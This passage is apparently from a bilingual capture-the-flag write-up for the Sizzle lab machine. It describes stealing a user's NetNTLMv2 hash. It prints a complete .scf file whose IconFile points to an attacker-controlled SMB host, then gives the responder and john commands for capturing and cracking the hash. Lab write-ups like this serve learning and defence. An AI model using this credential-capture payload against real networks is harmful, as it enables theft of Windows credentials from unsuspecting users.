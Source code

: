 ```bash
└─# umount /mnt/
```



# Creds for Amanda

## Strategy

Now that I know there’s some kind of user interaction on this host, a bunch more ideas for attack vectors come to mind. [This paper](http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf) outlines how Windows Explorer Shell Command files (`.scf`) can be used to get Windows to open an SMB connection whenever a user visits a directory containing the file. A `.scf` is a text file that can include an icon path that can be remote. `.lnk` files used to have the same issue, but this was [patched in August 2010](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2010/ms10-046) after Stuxnet was seen in the wild abusing `.lnk` files

For Sizzle, I will drop a `.scf` file with a link location on my host, and use responder to capture the NTLMv2 hash. For more information on responder and NetNTLMv2, check out [my post on responder](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html), which was released just around the time Sizzle was released (though I hadn’t done Sizzle yet). Here’s [another reference](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) for methods to capture NetNTLMv2, which includes `.scf` files.

大概意思就是，当有用户查看 `.scf` 文件所在的目录或者做了什么事情时，`.csf` 文件里的 `icon` 路径会被远程执行。以上定时删除文件的这个特性刚好满足了我们攻击的条件，可配合 `Responder`

## Get NetNTLMv2

```bash
root@kali:/mnt/Users/Public# cat 0xdf.scf 
[Shell]
Command=2
IconFile=\\10.10.16.5\uwu\uwu.ico
[Taskbar]
Command=ToggleDesktop
```

配合 Responder 

```
└─# responder -I tun0 --lm
```

失败了，根本接受不到，不知道原因



## Crack NetNTLMv2

```bash
└─# john --wordlist=/usr/share/wordlists/rockyou.txt amanda-ntlmv2 
```
